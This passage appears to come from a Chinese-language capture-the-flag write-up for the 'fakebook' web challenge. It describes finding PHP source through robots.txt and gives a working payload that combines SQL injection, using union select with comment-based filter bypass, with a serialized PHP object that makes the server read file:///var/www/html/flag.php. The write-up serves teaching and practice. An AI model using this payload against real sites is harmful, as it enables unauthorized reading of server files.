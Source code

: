 ![](./img/fakebook_查询列名.png)

然后通过之前检查 `robots.txt`的内容得到了一个 php 源码文件，通过代码审计发现是一个关于反序列化的题目，而且根据经验可以猜测 flag 就在网页的根目录下，于是最后构建了下面的 payload 进行最后的注入攻击的

```
view.php?no=1%20union/**/select%20%201,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

在进行攻击后查看网页的源码，发现已经回显了 flag 文件内容
